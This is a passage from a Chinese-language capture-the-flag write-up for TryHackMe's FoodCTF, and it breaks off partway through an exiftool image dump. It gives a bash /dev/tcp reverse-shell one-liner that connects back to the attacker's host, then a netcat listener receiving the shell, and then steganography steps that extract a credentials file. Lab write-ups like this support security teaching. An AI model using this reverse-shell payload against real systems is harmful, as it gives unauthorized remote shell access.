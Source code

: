 
我们用下面payload创建一个反弹shell：
```0<&196;exec 196<>/dev/tcp/10.13.21.169/4242; sh <&196 >&196 2>&196```

# 拿到初始shell
```
┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# nc -lnvp 4242           
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.2.134] 46670
id
uid=1004(bread) gid=1004(bread) groups=1004(bread)
whoami
bread
ls
flag
main
main.go
resources
cat flag
cat: flag: Permission denied

```

本账号下的flag居然没有读权限。


9999端口也是一个http服务，打开页面 打印一个:```king```，不知道是干嘛。

16109端口打开浏览器显示一张图片，把图片下载到本地分析。

exiftool查看图片基本信息，binwalk查看图片组成，再用steghide命令分离出一个creds.txt文件
```
┌──(root💀kali)-[~/tryhackme/FoodCTF]
└─# exiftool  10.10.2.134.jpeg 
ExifTool Version Number         : 12.16
File Name                       : 10.10.2.134.jpeg
Directory                       : .
File Size                       : 372 KiB
File Modification Date/Time     : 2021:11:09 04:02:55-05:00
File Access Date/Time           : 2021:11:09 04:04:05-05:00
File Inode Change Date/Time     : 2021:11:09 04:02:55-05:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 1350
Image Height                    : 900
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1350x900
Megapixels                      : 1.2
                                                                                                                                                                                                                                            